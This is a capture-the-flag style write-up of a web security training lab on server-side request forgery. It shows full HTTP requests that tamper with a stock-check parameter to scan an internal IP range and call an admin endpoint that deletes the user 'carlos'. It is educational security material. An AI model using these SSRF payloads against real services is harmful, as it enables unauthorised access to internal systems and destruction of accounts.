

---
tags:
  - ssrf
---
# Basic SSRF against another back-end system

## Instructions

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, use the stock check functionality to scan the internal `192.168.0.X` range for an admin interface on port `8080`, then use it to delete the user `carlos`.

## Solution

View any item and check the stock. Notice that the stockAPI makes a request to 192.168.0.X. Change the endpoint to /admin and send the request to intruder. 

```text title="Intruder request to /admin"
POST /product/stock HTTP/1.1
Host: 0a160088041648828637c7c100e30045.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a160088041648828637c7c100e30045.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 96
Origin: https://0a160088041648828637c7c100e30045.web-security-academy.net
Connection: keep-alive
Cookie: session=idvkWi3Mg7hf5Y2JA6V0xfqVw8Fsw0Ig
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: magenta
Priority: u=0

stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fadmin
```

Set a placeholder on the last octet and launch the attack. Most of the responses returned a 500 status code, so filter on the one(s) that are not 500s. 



We find that /admin is hosted on 192.168.0.112. Now we can send this to repeater and change the endpoint to `/admin/delete?username=carlos`. 

```text title="Solve the lab" hl_lines="19"
POST /product/stock HTTP/1.1
Host: 0a160088041648828637c7c100e30045.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:145.0) Gecko/20100101 Firefox/145.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Referer: https://0a160088041648828637c7c100e30045.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Origin: https://0a160088041648828637c7c100e30045.web-security-academy.net
Connection: close
Cookie: session=idvkWi3Mg7hf5Y2JA6V0xfqVw8Fsw0Ig
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-PwnFox-Color: magenta
Priority: u=0

stockApi=http%3A%2F%2F192.168.0.112%3A8080%2Fadmin/delete?username=carlos
```

Follow the redirection and solve the lab.